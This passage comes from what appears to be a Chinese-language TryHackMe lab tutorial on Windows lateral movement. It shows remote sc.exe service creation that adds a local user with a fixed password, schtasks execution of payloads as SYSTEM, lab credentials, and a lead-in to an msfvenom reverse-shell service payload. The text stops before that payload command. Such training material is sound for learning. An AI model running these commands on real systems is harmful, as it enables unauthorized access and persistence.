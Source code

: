     </div>

我们可以使用以下命令创建并启动名为 “THMservice” 的服务：

```powershell
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

"Net user" 命令将在启动服务时执行，在系统上创建一个新的本地用户。由于操作系统负责启动服务，您将无法查看命令输出。

要停止和删除服务，我们可以执行以下命令：

```powershell
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

### 远程创建计划任务

另一个我们可以使用的 Windows 功能是计划任务。您可以使用 `schtasks` 在任何 Windows 安装中创建和远程运行计划任务。要创建名为 `THMtask1` 的任务，可以使用以下命令：

```powershell
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00

schtasks /s TARGET /run /TN "THMtask1"
```

我们将计划类型（/sc）设置为 ONCE，这意味着任务只在指定的时间和日期运行一次。由于我们将手动运行任务，因此起始日期（/sd）和起始时间（/st）实际上不会有太大影响。

由于系统将运行计划任务，因此无法获取命令的输出，这使得这个操作是一种盲目攻击。

最后，要删除计划任务，我们可以使用以下命令清理操作：

```powershell
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### 让我们开始吧

完成这个练习，你需要使用在 Task 1 中分配给你的凭据连接到 `THMJMP2` ，凭据在 `http://distributor.za.tryhackme.com/creds` 上。通过 SSH 连接到 `THMJMP2` ：

```powershell
ssh za\\reece.mitchell@thmjmp2.za.tryhackme.com
```

对于这个练习，我们假设我们已经获取了具有管理员访问权限的一些凭据：

- User: ZA.TRYHACKME.COM\t1_leonard.summers
- Password: EZpass4ever

我们将展示如何使用这些凭据通过 `sc.exe` 进行横向移动到 THMIIS。随时尝试其他方法，因为它们都应该适用于 THMIIS。

虽然我们已经展示了如何使用 sc 在远程系统上创建用户（通过使用 `net user`），我们还可以上传我们想要执行的任何二进制文件，并将其与创建的服务关联起来。然而，如果我们尝试使用这种方法运行一个反向 shell，我们会注意到反向 shell 在执行后立即断开连接。原因是服务可执行文件与标准 .exe 文件不同，因此非服务可执行文件几乎会立即被服务管理器终止。幸运的是，msfvenom 支持 `exe-service` 格式，它会将我们喜欢的任何有效负载封装在一个完全功能的服务可执行文件中，防止它被终止。

要创建一个反向 shell，我们可以使用以下命令：
